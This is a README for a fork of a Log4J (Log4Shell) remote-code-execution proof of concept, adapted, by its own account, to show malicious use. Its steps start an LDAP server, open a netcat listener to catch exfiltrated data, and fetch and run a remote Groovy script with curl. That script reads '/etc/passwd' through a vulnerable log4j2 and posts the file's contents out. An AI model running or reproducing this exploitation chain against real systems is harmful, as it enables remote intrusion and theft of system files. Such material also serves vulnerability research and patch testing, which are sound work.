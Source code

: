 This is a fork of https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept, which did the legwork in getting remote execution. This repo is only just demonstrating how it could be used maliciously. 


# Steps to Run 
(1) Clone and run this repo: 
```bash
git clone https://github.com/srt4/Log4J-RCE-Proof-Of-Concept/tree/update-to-read-files` 
./gradlew build runMain
``` 

Leave it open - it's the "LDAP Server". 

(2) Run: `nc -l 8080`

This is where the file will be posted. 


(3) Download and run the Groovy script using a vulnerable version of log4j2, as well as setting the flag to mimic older JVMs (n.b. it's unclear how many of these exist in production, but likely to be few. The newer JVMs can still be exploited but likely less severely)

```bash
curl https://gist.githubusercontent.com/srt4/4fb4b537bb48599279e0380e097081e2/raw/76a0051b744d5afa6babe346e5a706a31ff39025/log4j-rce.groovy > log4j-rce.groovy
groovy log4j-rce.groovy '//etc/passwd'
```

Now the logs should be visible in stages (1) and (2) 